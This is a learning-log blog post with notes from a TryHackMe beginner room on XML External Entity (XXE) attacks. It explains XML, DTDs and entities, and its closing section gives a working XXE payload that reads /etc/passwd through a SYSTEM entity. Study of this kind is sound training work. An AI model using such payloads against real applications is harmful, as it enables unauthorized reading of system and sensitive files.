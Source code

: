 ```yaml
---
title: 'TryHackMe: Complete Beginner (Supplements)'
date: 2021-12-09 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-12-09-tryhackme-complete-beginner-supplements.html
author: 100007
---
```


# XXE

## Deploy the VM

I think I’ve basically done a different version of this room…

Anyways, two types of XML External Entity (XXE) attacks:

- IN-BAND attacks are where the attacker receives an immediate response.
- OUT-OF-BAND (“blind”) attacks are when there is no immediate response and instead the attacker must receive the data indirectly (such as through a request to a second server under the attacker’s control).

## eXtensible Markup Language

Some things to remember about XML documents:

- Start with the standard prolog: `<?xml version="1.0" encoding="UTF-8"?>`. This is not _technically_ compulsory, but some parsers will barf if it’s missing.
- Every XML document has one and _only_ one root element.
- XML is case sensitive.

## DTD

The Document Type Definition defines/validates an XML document. For example, the DTD defined as

```
<!DOCTYPE note [
	<!ELEMENT note (to,from,heading,body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

validate the XML document

```
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note SYSTEM "note.dtd">  
<note>  
	<to>falcon</to>  
	<from>feast</from>  
	<heading>hacking</heading>  
	<body>XXE attack</body>  
</note>
```

The root node is defined immediately after the DOCTYPE declaration, with each ELEMENT declaration taking the form `element_name (contained_data)`. `#PCDATA` stands for “printable character data.

The DTD can also define multiple ENTITY types - `&amp;` and similar.

```
<!DOCTYPE userInfo [
	<!ENTITY name "feast">
]>
<userInfo>
	<firstName>falcon</firstName>
	<lastName>&name;</lastName>
</userInfo>
```

Conveniently, DTD can be defined _in line_, and not just by included files.

These last two features are what we will leverage to attack applications that accept XML inputs.

## XXE Payload

```
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
```

The SYSTEM directive allows us to include other files… Possibly quite sensitive ones, depending on the permissions of our webserver and how good the application’s input sanitization is.

